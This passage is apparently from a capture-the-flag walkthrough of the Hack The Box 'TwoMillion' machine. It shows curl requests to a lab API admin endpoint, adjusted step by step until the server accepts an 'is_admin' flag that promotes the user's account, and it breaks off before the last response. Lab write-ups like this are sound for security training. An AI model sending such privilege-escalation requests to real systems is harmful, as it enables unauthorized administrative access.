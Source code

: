 Let's try to update our user as admin using the `/api/v1/admin/settings/update` endpoint.

```terminal
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    53    0    53    0     0     50      0 --:--:--  0:00:01 --:--:--    50
{
  "status": "danger",
  "message": "Invalid content type."
}
```

Let's change the content type to `application/json`.

```terminal
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    56    0    56    0     0      1      0 --:--:--  0:00:45 --:--:--    15
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Let's add the `email` in `data`.

```terminal
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" --data '{"email": "test@2million.htb"}' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    89    0    59  100    30     35     18  0:00:01  0:00:01 --:--:--    53
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

Let's also add the `is_admin` parameter.

```terminal
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" --data '{"email": "test@2million.htb", "is_admin": "true"}' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   126    0    76  100    50     34     22  0:00:02  0:00:02 --:--:--    56
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}

┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" --data '{"email": "test@2million.htb", "is_admin": '1'}' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    89    0    44  100    45     75     77 --:--:-- --:--:-- --:--:--   153
{
```